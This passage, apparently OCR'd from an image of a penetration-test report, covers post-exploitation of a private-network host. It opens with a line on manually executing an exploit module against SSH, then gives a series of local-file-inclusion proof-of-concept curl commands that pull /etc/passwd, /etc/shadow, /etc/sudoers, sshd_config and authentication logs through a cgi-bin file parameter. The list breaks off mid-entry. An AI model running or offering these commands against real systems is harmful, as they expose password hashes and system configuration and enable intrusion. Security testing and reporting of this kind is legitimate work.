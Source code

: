     ```bash
Review the module/exploit and execute it manually against the target: 192.168.1.113:22
    ```

## Post-Exploitation

### HTTP Web Server (Port 80)

- Type: LFI File Download
  - Details: Downloaded /etc/passwd
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=/etc/passwd'
    ```
- Type: LFI File Download
  - Details: Downloaded /etc/shadow
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=/etc/shadow'
    ```
- Type: LFI File Download
  - Details: Downloaded /etc/hosts
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=/etc/hosts'
    ```
- Type: LFI File Download
  - Details: Downloaded /etc/ssh/sshd_config
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=/etc/ssh/sshd_config'
    ```
- Type: LFI File Download
  - Details: Downloaded /etc/sudoers
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=/etc/sudoers'
    ```
- Type: LFI File Download
  - Details: Downloaded /var/log/auth.log
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=/var/log/auth.log'
    ```
- Type: LFI File Download
  - Details: Downloaded /var/log/syslog
  - PoC:
    
